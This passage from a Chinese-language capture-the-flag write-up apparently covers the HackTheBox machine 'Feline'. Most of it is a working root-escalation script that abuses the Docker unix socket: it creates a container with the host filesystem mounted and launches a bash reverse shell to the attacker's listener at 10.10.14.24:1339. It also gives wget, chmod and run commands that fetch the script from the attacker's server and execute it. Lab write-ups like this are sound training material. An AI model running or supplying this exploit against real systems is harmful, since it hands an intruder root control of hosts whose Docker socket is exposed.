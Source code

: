靶机没有舒服的复制黏贴
在kali，1339建立监听

real_root_shell.sh

```bash
cmd="bash -c 'bash -i >& /dev/tcp/10.10.14.24/1339 0>&1'"
payload="[\"/bin/sh\",\"-c\",\"chroot /mnt sh -c \\\"$cmd\\\"\"]"
response=$(curl -s -XPOST --unix-socket /var/run/docker.sock -d "{\"Image\":\"sandbox\",\"cmd\":$payload, \"Binds\": [\"/:/mnt:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create)

revShellContainerID=$(echo "$response" | cut -d'"' -f4)

curl -s -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/$revShellContainerID/start
sleep 1
curl --output - -s --unix-socket /var/run/docker.sock "http://localhost/containers/$revShellContainerID/logs?stderr=1&stdout=1"
```
wget http://10.10.14.24:8080/real_root_shell.sh
chmod +x real_root_shell.sh
./real_root_shell.sh

![]({{ site.url }}/assets/Feline_205.assets/20201120100918477_1548457400.png)





